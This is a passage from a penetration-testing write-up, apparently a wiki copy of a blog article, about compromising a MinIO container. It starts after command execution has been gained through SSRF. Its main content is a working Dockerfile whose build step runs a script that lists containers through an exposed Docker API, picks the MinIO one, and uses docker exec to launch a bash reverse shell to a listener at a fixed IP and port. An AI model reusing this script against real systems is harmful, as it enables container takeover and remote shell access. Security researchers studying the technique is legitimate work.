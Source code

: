 [![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/db483d55-f1d5-4a3e-9d00-b53d9833d464.da172f0b4e32.png)](https://www.leavesongs.com/media/attachment/2021/01/30/db483d55-f1d5-4a3e-9d00-b53d9833d464.png)

Perfect, we can execute arbitrary commands in the target cluster container.

At this time, it is still a little short of our goal to win MinIO, and the subsequent attack is actually relatively simple.

Because we can execute any command now, we will no longer be restricted by the SSRF vulnerability. We can directly rebound a shell, or we can directly send any data packet to the Docker API to access the container. 

So I wrote a script that automates attacking MinIO containers and puts them in the Dockerfile to attack when building them, and uses `docker exec` to execute the command to bounce shells in MinIO containers. 

```shell
FROM alpine:3.13

RUN apk add curl bash jq

RUN set -ex && \
    { \
        echo '#!/bin/bash'; \
        echo 'set -ex'; \
        echo 'target="https://192.168.227.131:2375"'; \
        echo 'jsons=$(curl -s -XGET "${target}/containers/json" | jq -r ".[] | @base64")'; \
        echo 'for item in ${jsons[@]}; do'; \
        echo '    name=$(echo $item | base64 -d | jq -r ".Image")'; \
        echo '    if [[ "$name" == *"minio/minio"* ]]; then'; \
        echo '        id=$(echo $item | base64 -d | jq -r ".Id")'; \
        echo '        break'; \
        echo '    fi'; \
        echo 'done'; \
        echo 'execid=$(curl -s -X POST "${target}/containers/${id}/exec" -H "Content-Type: application/json" --data-binary "{\"Cmd\": [\"bash\", \"-c\", \"bash -i >& /dev/tcp/192.168.1.142/4444 0>&1\"]}" | jq -r ".Id")'; \
        echo 'curl -s -X POST "${target}/exec/${execid}/start" -H "Content-Type: application/json" --data-binary "{}"'; \
    } | bash
```

What this script does is relatively simple. One is to traverse all containers. If you find that the name of its mirror contains `minio/minio`, you think that this container is the container where MinIO is located. 

Finally, successfully [get the shell of the MinIO container](https://youtu.be/WyDEn0wUhPc)

## Reference article

<a-alert type="success" message="https://www.leavesongs.com/PENETRATION/the-collision-of-containers-and-the-cloud-pentesting-a-MinIO.html" description="" showIcon>
</a-alert>